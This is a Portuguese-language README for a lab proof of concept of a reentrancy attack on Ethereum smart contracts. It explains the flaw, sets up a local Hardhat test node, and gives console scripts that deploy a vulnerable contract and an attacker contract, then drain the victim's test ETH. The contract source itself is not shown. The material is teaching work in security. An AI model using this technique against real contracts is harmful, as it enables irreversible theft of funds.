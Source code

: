 # Prova de Conceito (PoC): Ataque de Reentrancy em Smart Contract

Este repositório contém o código-fonte e a explicação para uma Prova de Conceito (PoC) da vulnerabilidade de **Reentrancy** em Smart Contracts, com base na apresentação "Pentest em Blockchain: Reentrancy".

---

## ⚠️ AVISO LEGAL DE USO

**Este projeto é estritamente para fins educacionais e de pesquisa em cibersegurança.**

Não me responsabilizo pelo mau uso de qualquer informação aqui contida. O uso de ferramentas para atacar alvos sem autorização prévia é ilegal. **Use apenas em ambientes de laboratório controlados.**

---

## 1. Sobre a Vulnerabilidade: Reentrancy

### O que é?
A Reentrancy (ou Reentrância) é uma das vulnerabilidades mais conhecidas e devastadoras em Smart Contracts.

Ela ocorre quando um contrato externo (Atacante) consegue chamar repetidamente uma função em um contrato (Vítima) *antes* que a primeira invocação dessa função tenha seu estado atualizado.

Em termos simples, o contrato do atacante "re-entra" na função de saque (`withdraw`) várias vezes antes que o contrato da vítima possa atualizar o saldo do atacante para zero.

### Por que é Crítico?
A exploração bem-sucedida dessa falha geralmente permite que um atacante **drene completamente os fundos** (ETH ou outros tokens) de um contrato vulnerável.

* Ataques em blockchain são **irreversíveis**.
* Perdas financeiras podem chegar a centenas de milhões de dólares, como visto em ataques históricos.

---

## 2. Setup do Laboratório (Ambiente Hardhat)

Para recriar o cenário de ataque, usamos o [Hardhat](https://hardhat.org/), um ambiente de desenvolvimento e testes para Ethereum.

### Pré-requisitos
* [Node.js](https://nodejs.org/en) (versão 18 ou superior)
* Dois contratos (Solidity):
    1.  `ReentrancyVictim.sol` (O contrato vulnerável)
    2.  `ReentrancyAttack.sol` (O contrato do atacante)

### Passos para Configuração

1.  **Clone este repositório (ou crie um novo projeto):**
    ```bash
    git clone https://github.com/Luan-Garcia/reentrancy-demo/
    cd reentrancy-demo
    ```

2.  **Inicie um projeto Hardhat e instale as dependências:**
    ```bash
    npm init -y
    npm install --save-dev hardhat @nomicfoundation/hardhat-toolbox @nomiclabs/hardhat-ethers ethers
    ```
    *Selecione "Create a JavaScript project" quando o `npx hardhat` perguntar.*

3.  **Adicione os contratos:** Coloque os arquivos `ReentrancyVictim.sol` e `ReentrancyAttack.sol` na pasta `/contracts` do seu projeto.

4.  **Inicie um nó local do Hardhat:**
    Este comando inicia uma blockchain local para testes, já com várias contas pré-carregadas com 10000 ETH de teste.
    ```bash
    npx hardhat node
    ```

5.  **Abra o console do Hardhat:**
    Em **outro terminal**, conecte-se ao seu nó local:
    ```bash
    npx hardhat console --network localhost
    ```

Você está pronto para executar o exploit.

---

## 3. Executando o Exploit

O ataque é dividido em duas fases. **Copie e cole** os blocos de código abaixo diretamente no seu console do Hardhat (que você abriu no passo 5).

### Fase 1: Deploy do Contrato Vítima e Depósito Inicial

Primeiro, publicamos o contrato da vítima e depositamos 10 ETH nele, simulando um "banco" com fundos.

```javascript
/* === FASE 1: DEPLOY DA VÍTIMA === */
console.log("Iniciando Fase 1: Deploy do contrato Vítima...");

// Pega as contas de teste. 'deployer' é a vítima, 'attackerEOA' é o atacante
const [deployer, attackerEOA] = await ethers.getSigners();

// Prepara o contrato da Vítima
const Victim = await ethers.getContractFactory("ReentrancyVictim");
const victim = await Victim.deploy();
await victim.waitForDeployment();
const victimAddr = victim.target || victim.address;

console.log("Contrato Vítima ('Victim') publicado em:", victimAddr);

// A Vítima (deployer) deposita 10 ETH no contrato
const txDep = await victim.connect(deployer).deposit({ value: ethers.parseEther("10") });
await txDep.wait();

console.log("Depósito de 10 ETH realizado. Hash:", txDep.hash);

// Verifica o saldo do contrato da Vítima
const victimBalance = ethers.formatEther(await ethers.provider.getBalance(victimAddr));
console.log("SALDO VÍTIMA (Antes do Ataque):", victimBalance, "ETH");
// Resultado esperado: 10.0 ETH 
```

### Fase 2: Deploy do Contrato Atacante e Exploração

Agora, publicamos o contrato do atacante e iniciamos o ataque de reentrância.

```javascript
/* === FASE 2: DEPLOY DO ATACANTE E EXPLORAÇÃO === */
console.log("\nIniciando Fase 2: Deploy do contrato Atacante...");

// Prepara o contrato do Atacante, fornecendo o endereço da Vítima
const Att = await ethers.getContractFactory("ReentrancyAttack");
const attacker = await Att.connect(attackerEOA).deploy(victimAddr);
await attacker.waitForDeployment();
const attackerAddr = attacker.target || attacker.address;

console.log("Contrato Atacante ('Attacker') publicado em:", attackerAddr);

// Verifica saldos ANTES do ataque
console.log("SALDO ATACANTE (Contrato) (Antes do Ataque):", ethers.formatEther(await ethers.provider.getBalance(attackerAddr)));
// Resultado esperado: 0.0 ETH 

console.log("\n>>> EXECUTANDO ATAQUE DE REENTRANCY...");

// Atacante inicia o ataque enviando 1 ETH para a função 'attack'
const attackTx = await attacker.connect(attackerEOA).attack({ value: ethers.parseEther("1") });
const receipt = await attackTx.wait();

console.log("Ataque concluído. Hash:", attackTx.hash);
console.log("Status da Tx:", receipt.status, "| Gas Usado:", receipt.gasUsed.toString()); 

/* === RESULTADOS FINAIS === */
console.log("\n--- RESULTADOS PÓS-ATAQUE ---");

const finalVictimBalance = ethers.formatEther(await ethers.provider.getBalance(victimAddr));
const finalAttackerContractBalance = ethers.formatEther(await ethers.provider.getBalance(attackerAddr));
const finalAttackerEOABalance = ethers.formatEther(await ethers.provider.getBalance(attackerEOA.address));

console.log("SALDO VÍTIMA (Depois do Ataque):", finalVictimBalance, "ETH");
// Resultado esperado: 0.0 ETH 

console.log("SALDO ATACANTE (Contrato) (Depois do Ataque):", finalAttackerContractBalance, "ETH");
// Resultado esperado: 11.0 ETH (10 ETH da Vítima + 1 ETH do Atacante) 

console.log("SALDO ATACANTE (Carteira Pessoal):", finalAttackerEOABalance, "ETH");
// Resultado esperado: (Um pouco menos de 9999 ETH, devido ao gas) 
```

## 4. Conclusão

Se os logs de "Resultados Finais" baterem com o esperado (Vítima com 0.0 ETH e Contrato Atacante com 11.0 ETH), o ataque de Reentrancy foi executado com sucesso, e os fundos foram drenados.
